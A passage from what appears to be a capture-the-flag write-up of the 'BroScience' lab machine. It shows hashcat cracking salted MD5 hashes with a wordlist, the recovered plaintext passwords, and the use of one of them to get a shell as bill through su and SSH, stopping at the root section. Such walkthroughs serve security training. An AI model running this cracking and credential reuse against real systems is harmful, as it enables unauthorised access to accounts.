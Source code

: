     Please specify the hash-mode with -m [hash-mode].
    ...[snip]...



Mode 20, `md5($salt.$pass)` looks like this case. It cracks three of
them:



    $ hashcat hashes --user -m 20 /usr/share/wordlists/rockyou.txt
    hashcat (v6.2.6) starting
    ...[snip]...
    13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym    
    5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest     
    bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples 
    ...[snip]...



Running with `--show` instead of a wordlist will show the results with
the usernames:



    $ hashcat hashes --user -m 20 --show
    bill:13edad4932da9dbb57d9cd15b66ed104:NaCl:iluvhorsesandgym
    michael:bd3dad50e2d578ecba87d5fa15ca5f85:NaCl:2applesplus2apples
    dmytro:5d15340bded5b9395d5d14b9c21bc82b:NaCl:Aaronthehottest



### su / SSH

bill is a user on the box, and the list above has a password for bill.
Running `su` with that password works to get a shell as bill:



    www-data@broscience:/var/www.md$ su - bill       
    Password: 
    bill@broscience:~$



And gives access to `user.txt`:



    bill@broscience:~$ cat user.txt
    511395d5************************



The password also works for SSH:



    oxdf@hacky$ sshpass -p 'iluvhorsesandgym' ssh bill@broscience.htb
    Linux broscience 5.10.0-20-amd64 #1 SMP Debian 5.10.158-2 (2022-12-13) x86_64
    ...[snip]...
    bill@broscience:~$



## Shell as root
